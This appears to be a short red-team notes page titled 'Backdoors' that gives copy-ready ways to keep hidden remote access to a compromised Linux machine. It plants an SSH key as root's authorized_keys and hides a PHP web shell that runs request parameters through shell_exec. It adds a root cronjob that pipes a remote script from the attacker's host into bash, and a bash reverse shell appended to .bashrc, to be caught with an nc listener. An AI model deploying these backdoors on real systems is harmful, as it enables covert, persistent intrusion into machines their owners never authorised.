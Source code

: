 ```yaml
---
title: "Backdoors"
collection: posts
type: "Info"
permalink: /posts/backdoors
venue: "Red Teaming"
date: 2023-03-12
location: "City, Country"
---
```


## Description : 

A backdoor is any method that allows somebody to remotely access your device without your permission or knowledge.

---

**SSH backdoors :**
First you need to generate a set of ssh keys : 

```bash
# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:0C5OkoRl+Zm8wESgHHlN5oZsfq/bx2UN4Dwbd5mkKK4 root@ip-10-10-235-216
The key's randomart image is:
+---[RSA 2048]----+
| .oo*+           |
|.oo=*. . .   .   |
|..o*.=.o+ o o o  |
|  o.+.=+ * + +   |
|   .oo+.S = +    |
|    .+oo . o .   |
|      o.. o      |
|     Eo  o       |
|     o...        |
+----[SHA256]-----+

```


* Now you have two keys: 1 private key and 1 public key
* You rename the public key from **id_rsa.pub** to **authorized_keys** and leave it in /root/.ssh

* You copy the id_rsa which is the prvate key to your machine and give the right permission 

```bash
chmod 600 id_rsa
```

* Now you can login to the target machine via ssh 

```bash
ssh -i id_rsa USERNAME@X.X.X.X
```

--- 

**PHP Backdoors :**

* Create a php file 

```bash
touch file.php
```

* Content of this file : 

```bash
<?php
if (isset($_REQUEST['cmd'])) {
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}

?>
```

* Try to put this file in already existing php files in **/var/www/html**

* You can access the file by visiting : **http://X.X.X.X/DIRECTORY/file.php**

--- 

**Cronjob Backdoors :**

* Create a cronjob 

```bash
* *     * * *   root    curl http://<yourip>:PORT/shell | bash
```

* The content of the shell file in your machine : 

```bash
#!/bin/bash
bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1
```

---

**.bashrc Backdoor :**
* If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

* You run this command 

```bash
echo 'bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1' >> ~/.bashrc
```

* If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

* You should always have your nc listener ready because you don't know when a user will login to their system.